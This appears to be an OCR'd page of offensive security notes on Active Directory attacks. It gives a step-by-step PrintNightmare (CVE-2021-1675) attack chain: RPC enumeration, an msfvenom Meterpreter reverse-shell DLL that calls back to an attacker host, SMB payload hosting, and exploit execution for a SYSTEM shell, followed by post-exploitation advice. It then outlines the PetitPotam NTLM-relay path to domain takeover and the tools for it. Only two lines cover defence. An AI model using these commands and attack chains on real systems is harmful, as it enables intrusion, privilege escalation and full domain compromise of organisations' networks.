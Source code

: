 **Attack Flow:**
1. **Check MS-RPRN Availability:**
   - Use `rpcdump.py` to enumerate exposed protocols:
     ```bash
     rpcdump.py @<target_IP> | egrep 'MS-RPRN|MS-PAR'
     ```
   
2. **Prepare Payload:**
   - Generate a malicious DLL using `msfvenom`:
     ```bash
     msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f dll > payload.dll
     ```

3. **Host Payload:**
   - Use `smbserver.py` to host the payload:
     ```bash
     smbserver.py -smb2support <ShareName> /path/to/payload.dll
     ```

4. **Execute Exploit:**
   - Run the exploit script against the target:
     ```bash
     python3 CVE-2021-1675.py domain/username:password@<target_IP> '\\<host_IP>\<ShareName>\payload.dll'
     ```
   - If successful, the target will execute the payload and call back to the attacker's handler, granting a SYSTEM shell.

**Post-Exploitation Considerations:**
- Clean up payloads and temporary files.
- Use `Meterpreter` to extend post-exploitation activities.

**Defensive Measures:**
- Disable the Print Spooler service on non-essential systems.
- Apply the latest patches from Microsoft to secure the Print Spooler.


### PetitPotam (MS-EFSRPC)
 **Overview**

PetitPotam (CVE-2021-36942) is an LSA spoofing vulnerability that abuses **Microsoft Encrypting File System Remote Protocol (MS-EFSRPC)** to coerce a **Domain Controller (DC)** to authenticate against a malicious host. By relaying this authentication (using NTLM), attackers can exploit environments with **Active Directory Certificate Services (AD CS)** enabled, potentially gaining full domain control.


#### **PetitPotam Attack Flow**

1. **Core Concept:**
   - Coerces the DC to authenticate to an attacker's host using **LSARPC** (via port 445).
   - Relays the NTLM authentication to a CA Web Enrollment service.
   - Captures a certificate that can be used to request a **Ticket-Granting Ticket (TGT)** for the DC.
   - Uses the TGT to perform privileged operations, such as **DCSync**.

2. **Tools Required:**
   - **PetitPotam.py** or its equivalents (Mimikatz, PowerShell scripts).
   - **Impacket tools**: ntlmrelayx.py, secretsdump.py.
   - **PKINITtools**: gettgtpkinit.py, getnthash.py.
   - **Rubeus** (optional, for Windows-based attacks).
